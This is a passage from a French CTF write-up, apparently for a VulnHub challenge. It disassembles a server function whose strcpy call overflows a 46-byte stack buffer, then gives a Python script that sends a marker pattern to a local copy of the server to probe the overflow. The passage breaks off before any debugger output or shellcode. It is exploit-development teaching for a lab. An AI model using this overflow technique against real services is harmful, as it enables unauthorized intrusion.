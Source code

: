 Des recopie sont faites différemment en fonction de sa valeur mais après calcul tout semble en ordre de ce côté (pas de faille).  

Regardons plutôt la fonction *v2* qui est appelée pour la seconde commande :  

```nasm
[0x080485a0]> pdf@sym.v2
|          ; CODE (CALL) XREF from 0x080489a4 (fcn.08048855)
/ (fcn) sym.v2 38
|          0x080486cf    55           push ebp
|          0x080486d0    89e5         mov ebp, esp
|          0x080486d2    83ec48       sub esp, 0x48
|          0x080486d5    8b4508       mov eax, [ebp+0x8]
|          0x080486d8    89442404     mov [esp+0x4], eax
|          0x080486dc    8d45d2       lea eax, [ebp-0x2e]
|          0x080486df    890424       mov [esp], eax
|          0x080486e2    e819feffff   call sym.imp.strcpy
|             sym.imp.strcpy(unk, unk)
|          0x080486e7    c70424628a0. mov dword [esp], str.here ;  0x08048a62 
|          0x080486ee    e82dfeffff   call sym.imp.puts
|             sym.imp.puts()
|          0x080486f3    c9           leave
\          0x080486f4    c3           ret
```

Ici 72 octets (0x48) seulement sont réservés sur la pile. Qui plus est, la cible du *strcpy()* est stockée en ebp-0x2e donc le buffer fait uniquement 46 octets.  

On va lancer notre copie du serveur en local, l'attacher depuis *gdb* (voir [VulnImage]({% link _posts/2014-04-15-Solution-du-CTF-VulnImage-de-VulnHub.md %})) et envoyer un buffer via ce code python :  

```python
#!/usr/bin/python
import socket
import time

target = '127.0.0.1'

s = socket.socket()
s.connect((target, 65535))
time.sleep(0.5)

# send first command
s.send("hello")
time.sleep(0.5)
# send second command
s.send("A" * 46 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4)
print "sent"
time.sleep(5)
s.close()
print "done"
```

Dans gdb on obtient ceci :  
